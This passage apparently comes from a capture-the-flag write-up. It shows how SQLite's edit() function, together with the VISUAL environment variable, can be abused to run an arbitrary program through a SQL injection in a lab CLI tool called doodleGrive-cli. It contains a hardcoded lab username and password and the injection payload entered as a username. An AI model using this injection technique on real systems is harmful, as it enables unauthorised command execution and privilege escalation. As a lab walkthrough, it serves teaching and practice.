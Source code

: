 ### Via SQLi / edit

This is method involves abusing the `edit` [SQL
function](https://www.sqlite.org/draft/cli.md#the_edit_sql_function).
This function allows an interactive user to specify a binary that will
apply to each value from a column as they are used.

> If the second argument is omitted, the VISUAL environment variable is
> used.

So if I can set this environment variable, it will call a program for
me.

Locally I can try this on the `db.sqlite3` file on my local system:



    oxdf@hacky$ VISUAL=cat sqlite3 db.sqlite3 'select "1" from accounts_customuser where username=""&edit(username)';
    admincrisDiseljamesMasonmartinCruztomHands



By setting `VISUAL` to `cat`, it calls `cat` on each column one by one
as part of the query.

I don't need to bypass the filter at all, as none of these characters
are removed.

I'll start the CLI and authenticate:



    tom@drive:~$ VISUAL=/usr/bin/vim ./doodleGrive-cli 
    [!]Caution this tool still in the development phase...please report any issue to the development team[!]
    Enter Username:
    moriarty
    Enter password for moriarty:
    findMeIfY0uC@nMr.Holmz!
    Welcome...!

    doodleGrive cli beta-2.2: 
    1. Show users list and info
    2. Show groups list
    3. Check server health and status
    4. Show server requests log (last 1000 request)
    5. activate user account
    6. Exit
    Select option:



I'll select option 5, and give it my injection:



    Select option: 5
    Enter username to activate account: "&edit(username);-- -

